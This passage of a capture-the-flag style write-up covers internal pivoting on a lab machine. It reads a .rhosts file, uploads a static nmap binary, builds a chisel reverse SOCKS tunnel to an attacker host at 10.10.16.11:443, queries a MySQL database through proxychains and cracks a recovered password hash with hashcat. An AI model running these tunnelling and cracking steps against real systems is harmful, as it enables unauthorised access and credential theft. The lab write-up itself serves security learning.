 <img width="632" height="402" alt="06 - IP check" src="https://github.com/user-attachments/assets/ca552330-50cf-4052-8873-9281a7a05824" />

### .rhosts file
Then searching through the files, I found out .rhosts file. I did not know what to do with it. So I searched through the internet and found out [this](https://phoenixnap.com/glossary/rhosts) website.

Rhosts file is used to control remote logins through rsh or rlogin. In the current machine, Users on the intern.build.vl and admin.build.vl could login as root on the machine.

<img width="338" height="66" alt="07 - 0 rhosts" src="https://github.com/user-attachments/assets/acd28337-5adb-49db-beb9-ecba40845450" />

### Static Nmap
Keeping this information in mind, I downloaded [static-nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) and transfered it with /etc/services file to the target container using curl.

Running it revealed the IPs and ports.

<img width="1217" height="792" alt="07 - static nmap output" src="https://github.com/user-attachments/assets/0dd59b6a-c42d-48c1-8a8a-7666b8061336" />

### Chisel
After running the nmap, I ran chisel to create a socks proxy using below steps:

1. Update the `/etc/proxychains4.conf`
    
    ```powershell
    #socks4 127.0.0.1 9050
    socks5  127.0.0.1 1080
    ```
    
2. Set Reverse Listener on attacker site:
    
    ```bash
    chisel server --reverse --port 443
    ```
    
3. Set client on the victim side:
    
    ```bash
    chisel.exe client 10.10.16.11:443 R:1080:socks
    ```
    
4. Now we can access the internal network.

Then connected to mysql database.

<img width="864" height="423" alt="08 - proxychains db" src="https://github.com/user-attachments/assets/ffa19219-7cc1-48c5-ad17-a19b3f80e066" />

Checking the records, I found a password.

<img width="1314" height="134" alt="09 - cracked" src="https://github.com/user-attachments/assets/912895ed-2f1b-47eb-8290-473bdd70318b" />

Then using the hashcat, cracked the password.

<img width="756" height="90" alt="10 - cracked real" src="https://github.com/user-attachments/assets/7535d676-d825-4660-b2ff-04d0119bca82" />

